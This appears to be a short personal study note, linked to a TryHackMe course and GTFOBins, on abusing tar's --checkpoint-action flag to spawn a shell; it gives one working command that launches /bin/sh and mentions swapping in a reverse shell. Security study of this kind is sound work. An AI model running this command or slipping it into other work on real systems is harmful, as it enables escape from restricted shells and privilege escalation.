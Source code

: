# Exploiting “tar”

Tar can be configured to execute an action for every N files processed using the --checkpoint and --checkpoint-action flags. So this will get us a shell:

```bash
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

This works with any input/output file (not just /dev/null), and with any executable binary (such as a reverse shell).

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins: tar](https://gtfobins.github.io/gtfobins/tar/)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> November 2, 2021

